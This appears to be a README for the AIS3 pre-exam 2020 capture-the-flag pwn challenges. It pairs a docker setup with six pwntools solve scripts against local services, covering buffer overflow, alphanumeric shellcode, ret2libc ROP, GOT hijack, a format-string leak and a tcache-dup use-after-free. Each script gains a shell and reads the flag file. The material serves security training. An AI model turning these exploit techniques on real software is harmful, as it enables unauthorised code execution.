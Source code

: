 # AIS3 pre-exam 2020

## Setup

```
docker-compose up --build -d
```

## Challenge

### 👻 BOF

> buffer overflow

<details><summary>hack.py</summary>

```python
from pwn import *
import time

ip = "localhost"
port = 10000

r = remote(ip, port)
# r = process("./bof")

context.arch = "amd64"

ret = 0x400699
shell = 0x400687

r.sendlineafter(".", 'a' * 0x38 + flat(ret, shell))

time.sleep(0.5)
r.sendline("cat /home/`whoami`/flag")

r.interactive()
```

</details>

### 📃 Nonsense

> alphanumeric shellcode, out of bounds

<details><summary>hack.py</summary>

```python
from pwn import *
import time

ip = "localhost"
port = 10001

r = remote(ip, port)
# r = process("./nonsense")

context.arch = "amd64"

# https://hama.hatenadiary.jp/entry/2017/04/04/190129
payload = "RRYh00AAX1A0hA004X1A4hA00AX1A8QX4tPj0X40PZPjAX4znoNDnRYZnCXA"
nonsense = "wubbalubbadubdub"

name = "haha"
payload += nonsense

r.sendafter("?", name)
r.sendafter("?", payload)
time.sleep(0.5)
r.sendline("cat /home/`whoami`/flag")

r.interactive()
```

</details>

### 🔫 Portal gun

> return oriented programming, ret2libc

<details><summary>hack.py</summary>

```python
from pwn import *
import time

ip = "localhost"
port = 10002

r = remote(ip, port)
# r = process("./portal_gun", env = {"LD_PRELOAD": "./hook.so"})
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.arch = "amd64"

main = 0x4006fb
puts_plt = 0x400560
puts_got = 0x601018
pop_rdi = 0x4007a3

payload = 'a' * 120 + flat(pop_rdi, puts_got, puts_plt, main)

r.sendlineafter("?", payload)
r.recvline()
libc_base = u64(r.recvline()[:6].ljust(8, '\x00')) - libc.sym.puts

info("libc base: {}".format(hex(libc_base)))

magic = libc_base + 0x10a38c
payload = 'a' * 120 + flat(magic)
r.sendlineafter("?", payload)

time.sleep(0.5)
r.sendline("cat /home/`whoami`/flag")

r.interactive()
```

</details>

### 🏫 Morty school

> out of bounds, GOT hijack

<details><summary>hack.py</summary>

```python
from pwn import *
import time

ip = "localhost"
port = 10003

r = remote(ip, port)
# r = process("./morty_school")

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.arch = "amd64"

r.recvuntil(": ")
libc_base = int(r.recvline()[:-1], 16) - libc.sym.puts
info("libc base: {}".format(hex(libc_base)))

magic = libc_base + 0x10a38c

# (0x4005c0 - 0x6020a0) / 0x18
r.sendlineafter("teach?", str(-87668))
r.sendafter(":", p64(magic))
r.sendafter(":", "\x00" * 0x100)

time.sleep(0.5)
r.sendline("cat /home/`whoami`/flag")

r.interactive()
```

</details>

### 🔮 Death crystal

> format string

<details><summary>hack.py</summary>

```python
from pwn import *
import time

ip = "localhost"
port = 10004

r = remote(ip, port)
# r = process("./death_crystal")

context.arch = "amd64"

payload = "%d" * 11 + ".%llu"
r.sendlineafter(":", payload)

r.recvline()
code_base = int(r.recvline().split(".")[1]) - 0xb20
info("code base: {}".format(hex(code_base)))

flag = code_base + 0x202060
payload = flat("%d" * 8, ".%s.aaaa", p64(flag))
r.sendlineafter(":", payload)

r.interactive()
```

</details>

### 📦 Meeseeks box

> use after free, tcache dup

<details><summary>hack.py</summary>

```python
from pwn import *
import time

ip = "localhost"
port = 10005

r = remote(ip, port)
# r = process("./meeseeks_box")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.arch = "amd64"

def Create(sz, data):
    r.sendlineafter(">", "1")
    r.sendlineafter(":", str(sz))
    r.sendlineafter(":", data)

def Show(idx):
    r.sendlineafter(">", "2")
    r.sendlineafter(":", str(idx))

def Delete(idx):
    r.sendlineafter(">", "3")
    r.sendlineafter(":", str(idx))

# unsorted bin
Create(0x900, 'aaaa')
Create(0x20, 'bbbb')
Delete(0)
Show(0)

libc_base = u64(r.recvline()[1:7].ljust(8, '\x00')) - 0x3ebca0
libc.address = libc_base
info("libc base: {}".format(hex(libc_base)))
magic = libc_base + 0x10a38c

# tcache dup
Create(0x20, 'cccc')
Delete(2)
Delete(2)
Create(0x20, p64(libc.sym.__malloc_hook))
Create(0x20, 'dddd')
Create(0x20, p64(magic))

# trigger __malloc_hook and pop the shell
r.sendlineafter(">", "1")
r.sendlineafter(":", "hack")
time.sleep(0.5)
r.sendline("cat /home/`whoami`/flag")

r.interactive()
```

</details>
